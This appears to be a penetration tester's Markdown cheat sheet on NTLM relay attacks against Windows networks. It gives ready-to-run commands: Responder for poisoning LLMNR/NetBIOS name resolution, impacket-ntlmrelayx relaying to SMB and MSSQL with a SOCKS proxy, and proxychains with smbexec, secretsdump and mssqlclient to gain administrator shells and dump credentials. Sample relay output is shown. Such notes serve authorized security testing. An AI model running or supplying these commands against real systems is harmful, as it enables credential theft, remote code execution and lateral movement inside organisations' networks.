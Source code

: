 # NTLM relay

## Questions to ask yourself
  *  What services will accept NTLM authentication?
  *  What other users/services/machines have access to the target service?

## Things to remember
  *  Relay victim account must have permissions for the target service (duh)
  *  Any service that supports NTLM can be a target
  *  This technique can be applied in many different places, see EFSRPC call in [`PetitPotam`](https://github.com/topotam/PetitPotam)

## Useful tools
  *  [`Responder`](https://github.com/lgandx/Responder) for poisoning name resolution
  *  [`impacket-ntlmrelayx`](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) for performing NTLM relay

## Name poisoning
  *  `Responder` for poisoning broadcast name resolution protocols (NetBIOS, LLMNR, mDNS, etc.)
      *  Poisoning name resolution will coerce victims to authenticate to the relay
      *  SMB/HTTP must be `off` in `Responder.conf` to use `impacket-ntlmrelayx`

```
responder -I eth0
responder -I eth0 -wv
```

## NTLM relaying
  *  `impacket-ntlmrelayx` for handling relay once victim initiates auth
      *  Dumps credentials from target machine by default
      *  Open proxy (port 1080) to leverage session gained via relay
      *  Various cross-protocol NTLM relays also supported

```
impacket-ntlmrelayx -t CLIENT02.example.com -smb2support
```

```
impacket-ntlmrelayx -t 10.0.0.1 -smb2support -socks
...
ntlmrelayx> socks
Protocol  Target       Username            AdminStatus  Port 
--------  -----------  ------------------  -----------  ----
SMB       10.0.0.1     CORP/ADMINISTRATOR  TRUE         445
...
proxychains impacket-smbexec CORP/Administrator@10.0.0.1
proxychains impacket-secretsdump CORP/Administrator@10.0.0.1
```

```
impacket-ntlmrelayx -t mssql://10.0.0.1 -socks -smb2support
...
ntlmrelayx> socks
Protocol  Target       Username            AdminStatus  Port 
--------  -----------  ------------------  -----------  ----
MSSQL     10.0.0.1     CORP/ADMINISTRATOR  N/A          1433
...
proxychains impacket-mssqlclient CORP/Administrator@10.0.0.1 -windows-auth
```
